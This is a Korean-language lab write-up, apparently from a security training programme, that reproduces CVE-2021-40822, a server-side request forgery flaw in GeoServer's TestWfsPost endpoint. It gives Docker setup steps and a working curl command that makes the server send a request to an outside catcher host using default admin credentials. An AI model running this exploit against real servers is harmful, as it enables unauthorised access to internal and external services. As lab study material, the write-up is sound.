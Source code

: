 # CVE-2021-40822 (GeoServer SSRF)

> 화이트햇 스쿨 3기 - [이진석]

<br/>

### 요약

- GeoServer는 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 Java로 작성된 오픈 소스 소프트웨어 서버이다.
- GeoServer 2.19.3, 2.18.5, 2.17.6 이전 버전에는 WMS GetMap 요청에 서버 측 요청 위조(SSRF) 취약점이 존재하여 공격자는 GeoServer 서버를 통해 내부 또는 외부 서비스에 요청을 보낼 수 있다.

### 환경구성
- `docker compose up -d` 커맨드를 입력해 GeoServer 2.19.1 서버를 시작한다.
서버가 시작된 후 GeoServer의 기본 페이지를 찾아볼 수 있다. `http://your-ip:8080/geoserver`
<img width="500" alt="스크린샷 2025-04-20 오후 1 59 03" src="https://github.com/user-attachments/assets/aae25fd6-0f3c-435b-842f-ad079860f98c" />

- https://requestcatcher.com/ 또는 https://webhook.site/ 에서 공격을 받을 외부 사이트를 준비한다.
  
### exploit
- 취약점은 TestWfsPost엔드포인트에 존재하여 공격자는 이 url매개변수를 사용하여 서버가 임의의 URL로 요청을 보내도록 할 수 있다.
- 엔드포인트는 다음과 같은 여러 매개변수를 허용한다.
url: GeoServer가 요청을 보낼 대상 URL
body: 전송할 요청 본문으로 이 매개변수가 비어 있으면 GeoServer는 GET 요청을 전송하고, 값이 포함되어 있으면 GeoServer는 POST 요청을 전송한다.
username: 기본 인증을 위한 사용자 이름(선택 사항)
password: 기본 인증을 위한 비밀번호 (선택 사항)

<pre><code>curl -X POST http://127.0.0.1:8080/geoserver/TestWfsPost
  -H "Content-Type: application/x-www-form-urlencoded"        
  -H "Host: (your-name).requestcatcher.com"       
  -d "url=http://(your-name).requestcatcher.com/geoserver/../&body=test&username=admin&password=geoserver"</code></pre> 
  
`참고: 매개변수의 호스트는 요청의 헤더 url와 일치해야 합니다 . 그렇지 않으면 GeoServer에서 오류가 반환됩니다.`
<img width="993" alt="스크린샷 2025-04-20 오후 4 15 30" src="https://github.com/user-attachments/assets/76309a82-7ab5-4ee8-aaa3-0d3df954f94c" />

<br/>

### 결과
GeoServer를 향한 요청에 대한 응답으로 외부사이트에 로그가 남아 GeoServer에서 온 test라는 텍스트가 반환되는 것을 볼 수 있습니다.
<br/>
